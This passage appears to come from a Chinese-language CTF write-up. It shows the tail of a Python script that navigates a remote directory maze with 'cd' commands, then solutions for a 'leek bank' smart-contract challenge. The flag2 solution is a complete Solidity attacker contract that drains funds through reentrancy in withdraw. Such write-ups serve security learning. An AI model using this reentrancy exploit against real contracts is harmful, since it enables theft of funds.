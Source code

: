```python
				sq[xp]=xt
		i+=1
	return None

cur=(0,0)
curv=[]
known={(0,0):'Down'}

_ot=False

while True:
	if len(curv)>300:
		for i in range(140):
			send('cd ..\n')
			curv=curv[:-1]
		cur=get()[0]
	ncur,s=find_unknown(cur,curv)
	print(ncur,len(curv),s)
	for i in s:
		if i=='..':
			curv=curv[:-1]
		else:
			curv+=[i]
		send('cd '+i+'\n')
	a,b=get()
	known[a]=b
	assert a==ncur
	cur=ncur
```

（为了防止超时可以存一下已知的位置，这份代码把这个删掉了）

## 韭菜银行

### flag1

查看创建合约时的参数

### flag2

重入漏洞

```solidity
contract attacker {
    JCBank target = JCBank(0xe575c9abd35fa94f1949f7d559056bb66fddeb51);

    uint private flag = 0;

    function exploit() public payable {
        target.deposit.value(1000 wei)();
        target.withdraw(1000 wei);
        target.get_flag_2(460743966538);
    }

    function() external payable {
        if (flag == 0) {
            flag = 1;
            target.withdraw(1000 wei);
        }
    }
}
```
